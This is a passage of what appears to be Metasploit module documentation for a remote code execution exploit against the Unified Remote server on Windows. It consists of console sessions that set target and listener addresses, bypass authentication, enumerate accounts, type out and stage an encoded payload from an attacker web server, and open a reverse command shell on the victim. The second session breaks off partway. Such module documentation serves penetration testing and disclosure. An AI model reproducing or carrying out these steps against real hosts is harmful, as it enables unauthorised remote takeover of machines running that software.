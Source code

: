 ```
resource (unified.rb)> use exploits/windows/misc/unified_remote_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (unified.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (unified.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (unified.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/unified_remote_rce) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] 2.2.2.2:9512 - Client name set to: android-Mmw9X2FSLLPzJk6t
[*] 2.2.2.2:9512 - Retrieving server config
[*] 2.2.2.2:9512 - users mode enabled, password required, bypassing
[*] 2.2.2.2:9512 - Uploading new server config
[*] 2.2.2.2:9512 - Sleeping 5 seconds for server to restart
[+] 2.2.2.2:9512 - Found account: admin
[+] 2.2.2.2:9512 - Found account: wheres
[*] 2.2.2.2:9512 - Sending handshake
[*] 2.2.2.2:9512 - Sending empty authentication
[*] 2.2.2.2:9512 - Opening Start Menu
[*] 2.2.2.2:9512 - Opening command prompt
[*] 2.2.2.2:9512 - Typing out payload
[*] 2.2.2.2:9512 - Using URL: http://1.1.1.1:8080/
[*] 2.2.2.2:9512 - Attempting to open payload
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 2.2.2.2
[*] 2.2.2.2:9512 - Reverting security mode
[*] 2.2.2.2:9512 - Uploading new server config
[*] 2.2.2.2:9512 - Sleeping 5 seconds for server to restart
[*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:59932) at 2022-09-08 16:53:05 -0400
[*] 2.2.2.2:9512 - Server stopped.
[!] 2.2.2.2:9512 - This exploit may require manual cleanup of 'c:\Windows\Temp\2NzuxPbY6fGK9FdNy.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Users\windows>
```

### Version 3.11.0.2483 on Windows 10, no authentication, no web server access, visible true

```
resource (unified.rb)> use exploits/windows/misc/unified_remote_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (unified.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (unified.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (unified.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/unified_remote_rce) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] 2.2.2.2:9512 - Client name set to: android-EIC1Bc3pwL4U4Pnj
[*] 2.2.2.2:9512 - Retrieving server config
```